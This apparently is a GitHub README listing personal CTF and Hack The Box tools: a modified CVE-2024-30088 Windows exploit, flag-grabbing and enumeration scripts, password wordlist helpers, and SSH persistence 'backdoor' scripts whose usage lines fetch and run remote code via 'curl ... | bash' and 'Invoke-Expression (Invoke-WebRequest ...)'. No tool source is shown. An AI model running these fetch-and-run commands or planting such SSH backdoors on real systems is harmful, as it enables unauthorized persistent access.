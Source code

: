 # CTF

## [CVE-2024-30088_flags.cpp](./CVE-2024-30088_flags.cpp) - Exploit for CVE-2024-30088 to Capture Flags

This is a modified exploit for **CVE-2024-30088**, designed to capture flags from a Windows system by exploiting a recent vulnerability. At the time, the exploit was effective, but it is expected to be patched on most up-to-date systems. It was fun while it lasted.


## [flagssh.sh](./flagssh.sh) - SSH Wrapper for Snatching Flags and Initial Enumeration

`flagssh.sh` is an SSH wrapper script to automate flag retrieval during SSH authentication, targeting both user and root flags on remote systems. In addition to capturing flags, it has great potential for adding more functionality to assist with initial enumeration, such as checking user permissions, sudo privileges, and transferring necessary tools for further exploitation.

#### Features:
- Automates SSH login and flag retrieval (user.txt, root.txt).
- Supports both password-based and key-based SSH authentication.
- Provides a flexible framework for adding additional enumeration tasks during the initial foothold phase.

#### Usage:
```bash
flagssh.sh <username>@<hostname> [<password_or_ssh_key>]
```

## [grepper.sh](./grepper.sh) - Targeted Search for Hidden Files in CTF Challenges

`grepper.sh` is a tool for (CTF) challenges where critical information, like passwords or flags, is hidden deep within the filesystem. The tool was created after encountering a CTF box with a hidden password buried in a `.log.gz` file, which was frustrating to locate manually. This script automates the search process by grepping for specific keywords in common directories and compressed files, making it easier to find those elusive clues. While it's a resource intensive tool, it is often a last resort after traditional enumeration techniques have failed.

#### Features:
- Searches for keywords in common system directories and within `.gz` compressed files.
- Designed to help in CTF scenarios where important files or logs are buried deep within the filesystem.
- Provides quick searches in common directories like `/opt` and `/var`.
- Automatically generates keywords based on system usernames and hostnames.
- Supports verbose output and searching binary files.

#### Usage:
```bash
grepper.sh [--all] [--path=dir1] [--path=dir2] ... [--verbose] [--auto] [--quick] [--gzip] [keyword1 [keyword2 ...]]
```

- `--all`: Include binary files in the search.
- `--path=dir`: Specify one or more directories to search.
- `--verbose`: Print detailed command output.
- `--auto`: Automatically generate keywords from system users and hostnames.
- `--quick`: Quickly search common directories `/opt` and `/var`.
- `--gzip`: Enable searching within `.gz` compressed files.


## [htb-usercontent.py](./htb-usercontent.py) - Fetch Hack The Box User-Generated Content

`htb-usercontent.py` is a script that interacts with the Hack The Box (HTB) API to retrieve all content generated by a specific user. This includes details about machines, challenges, and writeups the user has created. The tool is useful for OSINT allowing to quickly gain insights into a user's contributions on the HTB platform, such as which boxes they’ve created.


#### Usage:
```bash
htb-usercontent.py <user_id> [--proxy] [--ignore-ssl] [--machines] [--challenges] [--writeups]
```

- `<user_id>`: The HTB user ID you want to query.
- `--proxy`: Route requests through a proxy (useful for debugging).
- `--ignore-ssl`: Ignore SSL certificate verification.
- `--machines`: Print only information about machines created by the user.
- `--challenges`: Print only information about challenges created by the user.
- `--writeups`: Print only information about writeups authored by the user.

## [quickpass.py](./quickpass.py) - Search for Passwords in rockyou.txt Based on Keywords

`quickpass.py` is a simple yet effective script that searches the `rockyou.txt` wordlist for passwords related to specific keywords. It is particularly useful for boxes, where content creators sometimes use passwords that have some relation to the name of the box, service, or username. The script also supports searching in 1337-speak format for additional variations of the keywords.

#### Features:
- **Keyword-based password search**: Searches for passwords in `rockyou.txt` that match specific keywords, which can be related to the box name or service.
- **Leet-speak support**: Optionally convert the keyword into leet-speak and search for its variations.
- **Write results to file**: Saves matching passwords into `quickwins.txt` for easy access.

## [prefixsuffix.py](./prefixsuffix.py) - Generate Quick Custom Wordlist

`prefixsuffix.py` is a fast and customizable wordlist generator designed specifically for CTF challenges. It allows you to create targeted wordlists by combining predefined or custom prefixes and suffixes, making it ideal for situations where traditional wordlists like `rockyou.txt` take too long to process, especially against hashing algorithms or slow brute-force attacks.


#### Usage:
```bash
python3 prefixsuffix.py [--all] [--leet] [--prefix <prefix1> <prefix2>] [--suffix <suffix1> <suffix2>] [-cp]
```

- `--all`: Include lowercase versions of the predefined and additional prefixes.
- `--leet`: Apply Leet speak transformations to both prefixes and suffixes.
- `--prefix`: Add custom prefixes to the wordlist.
- `--suffix`: Add custom suffixes to the wordlist.
- `-cp` or `--custom-prefixes`: Use only the custom prefixes supplied and ignore the predefined ones.
- `--output`: Save the generated wordlist to a file (default: `prefixsuffix.txt`).


#### Usage:
```bash
quickpass.py <keywords> [--leet]
```

## [ssh-backdoor.ps1](./ssh-backdoor.ps1) - Quick and Easy SSH Persistence (Windows)

`ssh-backdoor.ps1` is a PowerShell script designed to simplify and automate the setup of SSH key-based persistance on Windows systems, especially for administrative users. This script manages SSH keys by configuring `authorized_keys` for individual users, setting up the required `administrators_authorized_keys` for admin accounts, and ensuring that proper permissions are enforced. 

### Features
- Creates `authorized_keys` in the `.ssh` directory for the current user, adding specified public keys for SSH access.
- Admin-Specific Configuration:
  - Creates and configures `administrators_authorized_keys` in `C:\ProgramData\ssh`, enforcing necessary permissions for the `Administrators` and `SYSTEM` groups.
  - Automatically updates SSH settings to ensure `PubkeyAuthentication` is enabled.
  - Adds keys to `authorized_keys` for all local user profiles on the system, providing SSH access across all accounts.
- Creates timestamped backups of any files it modifies, ensuring existing configurations are preserved.
- Restarts the SSH service if changes are made, but only if the script is run by an administrator.

### Usage:
To execute the script, run it in an elevated PowerShell prompt:
```powershell
Invoke-Expression (Invoke-WebRequest -Uri <script_url>).Content
```

## [ssh-backdoor.sh](./ssh-backdoor.sh) - Quick and Easy SSH Persistence

`ssh-backdoor.sh` is my absolute favourite script. It simplifies the process of setting up SSH persistence by adding public keys to the target's `~/.ssh/authorized_keys` file. This script ensures a secure and reliable backdoor for remote access if SSH login is available on the target machine. It performs the necessary directory and file setup, including backing up existing `authorized_keys`, setting appropriate permissions, and appending keys to the file.

The script is easy to curl into bash for fast execution and clean persistence.


#### Usage:
```bash
curl -sSL <script_url> | bash
```


